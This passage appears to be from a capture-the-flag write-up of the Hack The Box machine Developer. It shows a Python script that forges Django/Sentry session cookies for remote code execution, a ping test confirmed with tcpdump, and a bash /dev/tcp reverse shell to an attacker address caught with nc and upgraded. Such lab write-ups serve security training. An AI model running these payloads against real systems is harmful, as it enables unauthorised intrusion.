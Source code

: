     requests.get("http://developer-sentry.developer.htb/sentry/", cookies={"sentrysid": cookie})   



For example, with `tcpdump` listening, I can ping myself:



    oxdf@parrot$ python2 django-rce.py 'ping -c 1 10.10.14.6'
    Forged cookie:
    .eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-kRwAQVKUotLkvPzszNTkwvyizMruIori0tSc7kKmUJFCjLz0hV0kxUMFQwN9EDIRM-skLk1qJAllDc-sbQkI760OLUoPjPFmzVUCEkgKTE5OzUvJVQJYr1eaUlmTrEeSF7PNTcxM8cRyHKCqCnVAwDdijyO:1m47EC:va8S4KQZMhdYvXCdcgRVBkjPoIQ



And see it at `tcpdump`:



    oxdf@parrot$ sudo tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    15:41:00.834421 IP developer.htb > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
    15:41:00.834453 IP 10.10.14.6 > developer.htb: ICMP echo reply, id 2, seq 1, length 64



#### Shell

Running this with a reverse shell payload returned a shell:



    oxdf@parrot$ python2 django-rce.py 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
    Forged cookie:
    .eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-kRwAQVKUotLkvPzszNTkwvyizMruIori0tSc7kKmUINkxKLMxR0kxWUIIxMBTs1Bf2U1DL9kuQCfUMDPRAy0TPTNzExVjCwUzNUKmRuDSpkCeWNTywtyYgvLU4tis9M8WYNFUISSEpMzk7NSwlVgrhNr7QkM6dYDySv55qbmJnjCGQ5QdSU6gEAY4JESA:1m478z:q3TGSOBo-rDA954yJoX08RfEI9g



At a listening `nc`:



    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.120] 40458
    bash: cannot set terminal process group (879): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@developer:/var/sentry$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



I'll upgrade the shell with the standard trick:



    www-data@developer:/var/sentry$ python -c 'import pty;pty.spawn("bash")'
    python -c 'import pty;pty.spawn("bash")'
    www-data@developer:/var/sentry$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@parrot$ stty raw -echo ; fg
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@developer:/var/sentry$ 
